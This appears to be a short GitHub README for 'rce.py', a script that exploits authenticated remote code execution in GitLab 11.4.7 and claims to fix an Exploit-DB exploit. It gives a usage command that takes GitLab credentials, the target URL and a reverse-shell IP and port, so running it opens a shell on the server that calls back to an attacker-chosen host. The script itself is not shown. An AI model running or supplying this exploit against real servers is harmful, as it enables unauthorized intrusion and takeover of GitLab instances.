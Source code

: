 # Gitlab 11.4.7 Authenticated RCE

There is a minor mistake in https://www.exploit-db.com/exploits/49334

Now, You can use rce.py to execute rce.

## Usage 

python3 rce.py -u Username -p Password -g http://<gitlab_url> -l <Reverse_Shell_IP> -P <Reverse_Shell_Port>

Note: check gitlab port in script if your testing environment is not hosted on default port(5080).
